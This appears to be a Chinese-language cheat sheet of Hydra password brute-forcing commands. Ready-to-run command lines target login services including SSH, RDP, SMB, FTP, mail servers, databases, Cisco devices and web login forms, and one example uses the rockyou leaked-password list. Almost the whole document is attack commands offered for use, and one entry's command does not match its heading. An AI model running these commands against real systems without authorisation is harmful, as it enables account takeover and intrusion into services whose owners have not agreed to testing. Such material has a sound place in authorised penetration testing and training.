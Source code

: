 ```yaml
---
description: 密码爆破
---
```


# ✔️ Hydra

## 通用格式

1. **hydra \[-l 用户名/-L 用户名列表] \[-p 密码/-P 密码列表] -u -f \[目标IP地址/域名] \[-s 端口号] \[模块] "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "**

* \-u：要尝试每一个密码的每一个用户名（遍历用户名列表&密码列表）
* \-f：找到第一个匹配项就立刻停止
* 模块：视具体情况而定
* "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "：此处常用于针对Web应用的登录界面的具体规则指定，需要结合BurpSuite以及查看源码来指定

2. **hydra \[-l 用户名/-L 用户名列表] \[-p 密码/-P 密码列表] 协议://目标IP**

## &#x20;单独使用进行爆破

* 长针对于各种协议的服务进行爆破（FTP/SSH/RDP/TELNET/...）

### 针对各种协议的爆破

* **ftp**：用于破解 FTP（File Transfer Protocol）服务：

```bash
hydra -l username -P passwords.txt ftp://192.168.xxx.xx
```

* **ssh**：用于破解 SSH（Secure Shell）服务：

```bash
hydra -l username -P passwords.txt ssh://192.168.xxx.xx
```

* **telnet**：用于破解 Telnet 服务：

```bash
hydra -L usernames.txt -P passwords.txt telnet://192.168.xxx.xx
```

* **sip**：用于破解 SIP 服务器的认证：

```bash
hydra -L usernames.txt -P passwords.txt sip://192.168.xxx.xx
```

* **http-proxy**：用于破解 HTTP 代理服务器的认证：

```bash
hydra -L usernames.txt -P passwords.txt http-proxy://192.168.xxx.xx
```

* **smb**：用于破解 SMB（Server Message Block）服务，常用于 Windows 文件共享：

```bash
hydra -L usernames.txt -P passwords.txt smb://192.168.xxx.xx
```

* **snmp**：用于破解 SNMP（Simple Network Management Protocol）服务：

```bash
hydra -P passwords.txt snmp://192.168.xxx.xx
```

* **rdp**：用于破解 RDP（Remote Desktop Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt rdp://192.168.xxx.xx
```

* **smtp**：用于破解 SMTP（Simple Mail Transfer Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt smtp://192.168.xxx.xx
```

* **pop3**：用于破解 POP3（Post Office Protocol 3）邮件服务：

```bash
hydra -L usernames.txt -P passwords.txt pop3://192.168.xxx.xx
```

* **imap**：用于破解 IMAP（Internet Message Access Protocol）邮件服务：

```bash
hydra -L usernames.txt -P passwords.txt imap://192.168.xxx.xx
```

* **vnc**：用于破解 VNC（Virtual Network Computing）服务：

```bash
hydra -P passwords.txt vnc://192.168.xxx.xx
```

* **ldap**：用于破解 LDAP（Lightweight Directory Access Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt ldap://192.168.xxx.xx
```

* &#x20;**Cisco**：用于破解 Cisco 设备的认证：

```bash
hydra -L usernames.txt -P passwords.txt cisco://192.168.xxx.xx
```

### 针对数据库的爆破

* **mssql**：用于破解 Microsoft SQL Server：

```bash
hydra -L usernames.txt -P passwords.txt mssql://192.168.xxx.xx
```

* **mysql**：用于破解 MySQL 数据库服务：

```bash
hydra -l root -P passwords.txt mysql://192.168.xxx.xx
```

* **redis**：不直接支持 Redis 认证，但可以通过 TCP 协议进行爆破：

```bash
hydra -L usernames.txt -P passwords.txt -s 6379 192.168.xxx.xx redis
```

* **oracle**：用于破解 Oracle 数据库：

```bash
hydra -L usernames.txt -P passwords.txt oracle://192.168.xxx.xx
```

* **mongodb**：可使用Medusa

### 组合使用进行爆破（Hydra + BurpSuite）

* 常针对Web应用程序登录界面的表单进行爆破 (HTTP / HTTPS)

#### **http-form-post**：

* 用于破解基于 HTTP POST 表单的认证。通常用于网站登录页面的暴力破解。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-form-post**：

* 与 http-form-post 类似，但针对 HTTPS 协议的表单认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

#### **http-form-get**：

* 用于破解基于 HTTP GET 表单的认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 http-form-get "/login?username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-form-get**：

* 与 http-form-get 类似，但针对 HTTPS 协议的表单认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-get "/login?username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-post-form**：

* 与 http-post-form 类似，但针对 HTTPS 协议：

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

#### **http-post-form**：

* 用于执行更复杂的 HTTP POST 表单暴力破解，常用于需要多步验证或自定义表单参数的情况。

```bash
# 实例
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 192.168.xxx.xx -s 8080 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

* \`/login.php:username=^USER^\&password=^PASS^\`：此处需要使用BurpSuite拦截表单请求，根据实际情况进行修改
* \`F=\<form name='login' \`：此处需要查看源码中表单实际的名称进行修改
